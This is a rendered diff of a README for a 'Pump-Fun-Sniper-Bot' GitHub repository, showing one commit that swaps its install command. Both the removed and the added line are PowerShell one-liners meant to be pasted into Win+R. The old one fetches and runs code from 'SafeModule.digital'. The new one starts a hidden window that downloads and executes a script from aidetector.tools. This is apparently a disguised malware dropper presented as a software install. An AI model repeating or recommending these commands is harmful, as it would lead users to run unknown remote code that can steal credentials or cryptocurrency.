

Before and after one commit to Pump-Fun-Sniper/Pump-Fun-Sniper-Bot, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -71,7 +71,7 @@ We’ve switched from a traditional download button to a one-line shell script b
 
 ### 💻 Install Command (Run via `Win + R`)
 <pre>
-  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
+  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/389290d';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: oba71').Content;</code>
 </pre>
 ---
 
```
